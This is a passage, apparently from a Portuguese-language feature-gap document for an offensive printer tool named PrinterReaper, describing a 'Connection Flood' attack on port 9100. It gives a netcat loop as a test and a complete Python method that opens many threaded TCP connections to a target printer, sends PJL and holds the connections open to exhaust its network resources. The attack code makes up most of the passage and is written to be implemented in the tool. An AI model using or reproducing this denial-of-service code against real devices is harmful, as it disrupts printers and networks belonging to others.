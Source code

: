 ### ❌ 2.8 Connection Flood (FALTANDO)
**Attack**: Múltiplas conexões TCP simultâneas  
**Teste**: `while true; do nc printer 9100; done`  
**Efeito**: Esgotar recursos de rede  
**PrinterReaper**: NÃO IMPLEMENTADO

**Implementação Necessária**:
```python
def do_dos_connections(self, arg):
    """DoS attack via connection flooding"""
    count = conv().int(arg) or 100
    output().warning(f"Flooding {count} connections to {self.target}:9100...")
    
    import socket
    import threading
    
    connections = []
    
    def create_connection():
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.target, 9100))
            sock.send(b"@PJL\r\n")
            connections.append(sock)
            time.sleep(30)  # Hold connection
        except Exception as e:
            pass
    
    threads = []
    for i in range(count):
        t = threading.Thread(target=create_connection)
        t.daemon = True
        t.start()
        threads.append(t)
        time.sleep(0.01)  # Small delay
    
    output().info(f"Launched {count} connections")
    output().info("Press Ctrl+C to stop")
    
    try:
        for t in threads:
            t.join()
    except KeyboardInterrupt:
        # Close all connections
        for sock in connections:
            try:
                sock.close()
            except:
                pass
```

---
